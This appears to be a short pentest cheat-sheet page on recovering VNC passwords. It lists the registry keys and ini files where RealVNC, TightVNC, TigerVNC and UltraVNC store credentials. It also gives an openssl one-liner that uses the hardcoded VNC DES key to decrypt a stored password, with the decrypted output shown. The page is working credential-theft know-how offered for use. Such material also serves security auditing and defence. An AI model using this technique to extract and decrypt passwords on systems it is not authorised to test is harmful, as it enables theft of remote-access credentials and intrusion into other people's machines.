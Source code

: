 ### VNC
```
VNC uses a hardcoded DES key to store credentials. The same key is used across multiple product lines.

RealVNC
HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver
Value: Password

TightVNC
HKEY_CURRENT_USER\Software\TightVNC\Server
HKLM\SOFTWARE\TightVNC\Server\ControlPassword

tightvnc.ini
vnc_viewer.ini
Value: Password or PasswordViewOnly

TigerVNC
HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4
Value: Password

UltraVNC
C:\Program Files\UltraVNC\ultravnc.ini
Value: passwd or passwd2
```
### Native Linux Tools to decrypt passwd
From https://github.com/billchaison/VNCDecrypt via https://miloserdov.org/?p=4854#65
>echo -n d7a514d8c556aade | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv

Output
```
00000000  53 65 63 75 72 65 21 00                           |Secure!.|
00000008
```
